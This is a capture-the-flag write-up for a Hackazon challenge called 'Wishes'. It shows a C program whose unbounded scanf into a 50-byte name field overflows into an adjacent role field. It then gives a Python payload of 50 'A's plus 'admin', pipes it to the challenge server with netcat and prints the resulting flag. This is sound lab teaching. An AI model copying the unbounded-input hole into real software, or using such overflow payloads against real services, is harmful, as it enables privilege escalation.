

#### CHALLENGE INFORMATION

Tell Santa your name and he might give you a flag for Christmas!

*Author information: This challenge is developed by Deloitte.*

#### BACKEND SYSTEMS (SHARED)

Backend systems are running for you.
This environment will run until 2021-01-03 23:59:59 CET

**Note: the infrastructure of this challenge is shared between multiple players, please be careful.**

Use the following link to access the challenge:
[tcp://portal.hackazon.org:17002](unsafe:tcp://portal.hackazon.org:17002)

#### FILES

You will need the files below in order to solve this challenge.

[chall.c](./src/chall.c)

#### (75 Points) WISHES

Tell Santa your name and he might give you a flag for Christmas!

---

#### (Solution) Wishes

Given a TCP link and a *.c* file, it indicates the server is running the *.c* file.

- Connect to server using `netcat`:

  ```
  $ nc portal.hackazon.org 17002
  Enter your name:
  ```

  The server is prompting for a name input.

- Opening the [chall.c](./src/chall.c) file:

```c
#include <stdio.h>
#include <stdlib.h>

typedef struct locals {
	char username[50];
	char role[10];
} locals;

int main(void) {
	locals config;
	strcpy(config.role, "user");

	setbuf(stdout, NULL);

	printf("Enter your name: ");
	scanf("%s", config.username);

	printf("Hello, %s!\n", config.username);
	printf("Role: %s\n", config.role);


	if (strcmp(config.role, "admin") == 0) {
		printf("Flag: %s\n", getenv("FLAG"));
	} else {
		puts("Access denied.");
	}
}
```

We can see that `config` consists of 2 arrays: `username[50]` and `role[10]`.

It then requests for the user to input its name which will be stored in the `config.username`. 

Next, it does a comparison to check if `strcmp(config.role, "admin") == 0` in which it will print the flag.

However, since the program does not request for `config.role`, we need to input a string of characters into `config.username` such that it will overflow into `config.role`.

All we have to do is to enter a string that is 50 characters + string `admin` as input. This can be done using a Python [script](./src/wishes.py)

```python
print('A'*50 + 'admin')
```

Finally we can pipe the standard output of the Python file to the TCP server:

```
$ python3 wishes.py | nc portal.hackazon.org 17002
Enter your name: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin!
Role: admin
Flag: CTF{0c5b3f43b6be7bb150fccc4f4a07a313}
```